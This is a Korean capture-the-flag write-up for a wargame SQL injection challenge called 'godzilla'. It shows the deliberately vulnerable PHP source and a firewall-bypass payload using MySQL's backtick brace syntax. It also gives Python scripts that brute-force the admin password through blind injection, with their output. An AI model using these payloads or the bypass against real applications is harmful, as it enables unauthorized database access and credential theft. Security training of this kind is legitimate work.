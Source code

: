 # godzilla

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_godzilla where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if($result['id']) echo "<h2>Hello admin</h2>";
   
  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_godzilla where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("godzilla");
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `prob _ . ()`를 필터링한다.   
- 웹방화벽이 존재한다.   
&rarr; ``{`a`b}``구문을 이용한다.   
- 정확한 admin pw를 알아야 한다.   

## 3. Solution
python 스크립트를 이용해 blind-sqlinjection 한다.

a. pw의 길이
b. pw의 값


### a. Length of pw
변수명 | 값
---|---:
`pw` | 1' or {\`if\`id='admin' and length(pw)=`i`}#


비교값 `i`는 반복문을 통해 적당값(ex. 1~20)을 넣어준다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://modsec.rubiya.kr/chall/godzilla_799f2ae774c76c0bfd8429b8d5692918.php?\
            pw=1' or {`if`id='admin' and length(pw)=%d}%%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
```
---


### b. Value of pw

변수명 | 값
---|---:
`no` | 1' or {\`if\`id='admin' and ascii(substr(pw,`i`,1))=`j`}#   


a. Length of pw 의 코드에 추가해 보자.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://modsec.rubiya.kr/chall/godzilla_799f2ae774c76c0bfd8429b8d5692918.php?\
            pw=1' or {`if`id='admin' and length(pw)=%d}%%23" % i
    res = requests.get(url, cookies=cookie)
    
    if "Hello admin" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
        
pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://modsec.rubiya.kr/chall/godzilla_799f2ae774c76c0bfd8429b8d5692918.php?\
                pw=1' or {`if`id='admin' and ascii(substr(pw,%d,1))=%d}%%23" % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "Hello admin" in res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
pw(1) : a
pw(2) : a1
pw(3) : a18
pw(4) : a18a
pw(5) : a18a6
pw(6) : a18a6c
pw(7) : a18a6cc
pw(8) : a18a6cc5
```
---



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.

변수명 | 값
---|---:
`pw` | a18a6cc5